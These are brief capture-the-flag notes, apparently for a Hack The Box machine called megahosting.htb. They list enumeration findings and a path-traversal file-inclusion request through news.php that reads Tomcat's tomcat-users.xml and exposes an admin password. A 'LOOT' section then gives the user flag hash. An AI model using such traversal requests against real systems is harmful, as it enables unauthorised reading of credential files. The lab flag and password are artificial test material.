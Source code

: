 # ENUMERATION
- Possible domain megahosting.htb
- OS running Ubuntu
- LFI detected

## LFI Expedition
GET /news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml HTTP/1.1
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>


# LOOT
- user : 79490d97554c342aab4610a8f5f9b568